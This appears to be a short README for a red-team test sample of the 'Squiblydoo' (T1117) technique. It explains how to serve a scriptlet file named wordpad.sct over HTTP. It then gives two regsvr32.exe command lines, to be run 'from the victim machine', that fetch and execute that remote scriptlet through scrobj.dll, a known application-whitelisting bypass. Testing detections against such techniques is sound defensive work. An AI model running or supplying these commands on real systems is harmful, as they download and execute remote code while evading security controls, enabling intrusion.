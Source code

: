**SquiblyDoo/T1117 Sample**

On a machine with an HTTP Server, place the file "wordpad.sct" in the a served folder that can be accessed by the test/victim machine. If no HTTP Server is available you can use web_server.py from my repo (https://github.com/ColbyBurkett/Python-web-server). The serving folder is the same folder that web_server.py is running from.
# Launch this from the victim machine:
```
regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
cmd.exe /c regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
```
